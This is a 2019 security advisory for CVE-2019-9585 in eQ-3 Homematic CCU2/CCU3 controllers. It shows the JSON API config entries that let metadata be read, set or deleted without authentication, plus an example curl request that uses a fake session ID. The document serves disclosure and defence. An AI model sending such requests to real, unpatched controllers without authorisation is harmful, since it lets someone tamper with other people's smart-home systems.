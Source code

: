 ```yaml
---
layout: post
title:  "CVE-2019-9585 eQ-3 Homematic CCU2 prior 2.47.10 and CCU3 prior 3.47.10 JSON API has Improper Access Control for Interface.***Metadata related operations, resulting in the ability to read, set and deletion of Metadata"
datetime: 2019-03-27 20:0:00 MET
last_modified_at: 2019-07-26 00:05:00 MEST
author: 'psytester'
---
```


# Overview

- CVE: CVE-2019-9585
- Author: psytester
- Title: eQ-3 Homematic CCU2 prior 2.47.10 and CCU3 prior 3.47.10 JSON API has Improper Access Control for Interface.***Metadata related operations, resulting in the ability to read, set and deletion of Metadata
- Vulnerability Type: CWE-284: Improper Access Control
-	CVSSv3 Base Score: 9.9
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:H/A:L
- Publishing Date: 26.07.2019
- Updated: --
- Vendor: eQ-3 AG
- Product: Homematic CCU2 and CCU3
- Vendor contacted: 12.04.2019
- Vendor confirmation: N.A.
- Vendor patch: CCU2 2.47.10 and CCU3 3.47.10
- Vendor Reference: [HMCCU-261] in changelog of CCU2 and CCU3
- Affected Firmware version of CCU2: 2.35.16, 2.41.5, 2.41.8, 2.41.9, 2.45.6, 2.45.7 tested
- Affected Firmware version of CCU3: 3.41.11, 3.43.16, 3.45.5, 3.45.7 tested

# Background

From [vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>


Past [eQ-3 press release](https://www.eq-3.de/aktuelles/newsreader/eq-3-schliesst-sicherheitsluecken-in-der-ccu.html) about taking security updates seriously (in German only):<br>
[...]<br>
eQ-3 ist es wichtig, dass auch solche Lücken geschlossen werden, die für die meisten Installationen keine Rolle spielen.<br> 
[...]<br>
Obwohl nur Nutzer betroffen sind, die gegen Sicherheitshinweise von eQ-3 verstoßen oder seit mehreren Jahren keine Sicherheitsupdates installiert haben, gibt eQ-3 solchen Fällen hohe Priorität und behebt entsprechende Sicherheitslücken schnellstmöglich nach Bekanntwerden in neuen Software-Versionen und Hotfixes.<br>
[...]

# Issue Description

While analyzing the implementation of the CCU2 and CCU3, an Improper Access Control vulnerability has been identified, which can be exploited in order to retrieve, modify or delete internal MetaData.<br>
The system provides a JSON API. While some methods require a dedicated user access level identified by provided sessionID, a number of methods can also be used with any string as sessionID.

A code review of the file ```/www/api/methods.conf``` revealed that the ```Interface.setMetadata``` / ```Interface.getMetadata``` and ```Interface.removeMetadata``` method can be used without valid authentication.<br>
They require the _session_id_ parameter, but due to ```LEVEL NONE``` the SessionID value is never checked.
```
Interface.setMetadata {
  LEVEL NONE
  SCRIPT_FILE interface/setmetadata.tcl
  INFO {Setzt ein Metadatum zu einem Object}
  ARGUMENTS {_session_id_ objectId dataId value}
}
 

Interface.getMetadata {
  LEVEL NONE
  SCRIPT_FILE interface/getmetadata.tcl
  INFO {Gibt ein Metadatum zu einem Object zurück}
  ARGUMENTS {_session_id_ objectId dataId}
}

Interface.removeMetadata {
  LEVEL NONE
  SCRIPT_FILE interface/removemetadata.tcl
  INFO {Entfernt ein Metadatum eines Objects}
  ARGUMENTS {_session_id_ objectId dataId}
}
```

Example method call without valid sessionID:
```
curl -X POST -k -i 'https://1.2.3.4/api/homematic.cgi' --data '{
  "version": "1.1",
  "method": "Interface.getMetadata",
  "params": {
    "_session_id_": "@unknownvalue@",
    "objectId": ".....",
	"dataId": "....."
  }
}'
```

If those Metadata gots corrupt by an attack, the WebUI is no longer able to show or modify the details of a device.
Settings-->Devices--> select "HM-RCV-50 BidCoS-RF" and press "Set" button might show up such error message:
```
Das Gerät mit der Seriennummer 'BidCoS-RF' vom Interface 'systemHacked' konnte nicht abgefragt werden!
```

# CVE

[CVE-2019-9585](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9585)

# CVSSv3 Base Score

CVSSv3 Base Score: 9.9

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:H/A:L

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
